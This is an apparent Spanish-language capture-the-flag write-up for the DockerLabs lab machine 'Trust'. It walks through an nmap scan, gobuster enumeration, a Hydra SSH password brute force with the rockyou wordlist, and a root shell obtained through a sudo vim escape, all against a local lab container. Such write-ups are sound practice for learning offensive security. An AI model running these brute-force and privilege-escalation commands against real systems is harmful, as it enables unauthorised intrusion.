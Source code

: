 ```yaml
---
title: Trust - DockerLabs
published: true
---
```


 
| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Super Fácil | ElPinguinoDeMario | 

## Contenidos
1. [Escaneo y Reconocimiento de puertos](#Escaneo-y-Reconocimiento-de-puertos)
2. [Enumeración Web](#Enumeración-Web)
3. [Ataque de fuerza bruta con Hydra](#Ataque-de-fuerza-bruta-con-Hydra)
4. [Intrusión y Escalada de privilegios](#Intrusión-y-Escalada-de-privilegios)


## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![Reconocimiento](https://github.com/romabri/WriteUps/assets/51706860/9374ba63-c786-4e08-ae44-c3672d159e86)

`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![web](https://github.com/romabri/WriteUps/assets/51706860/ce0df111-f0a7-4abc-8d00-955226c4aec8)

Vemos que nos encuentra un directorio llamado secret.php. Si accedemos a él, vemos lo siguiente:

![web2](https://github.com/romabri/WriteUps/assets/51706860/127749c8-2bba-4eaa-a83b-6a640b960bf4)

Aparece el nombre de Mario, por lo que probablemente sea un posible usaurio.


## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima


![att](https://github.com/romabri/WriteUps/assets/51706860/4ff3c53d-abe0-434e-b23f-1e162b9f3dce)

Como vemos, existe el usuario `mario` y la contraseña es `chocolate`.


## Intrusión y Escalada de privilegios

Ahora accedemos vía SSH 

`ssh mario@172.17.0.2`

Si hacemos el comando `sudo -l`, vemos que tenemos permisos para ejecutar como sudo el binario `VIM`

Para poder escalar privilegios con este binario, hacemos lo siguiente:

``sudo /usr/bin/vim -c ':!/bin/sh'`` 

Esto nos lanzará una terminal pero en modo `ROOT` y ya habremos terminado la máquina.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/34672299-f455-4af2-bd6e-edb5bb059d46)
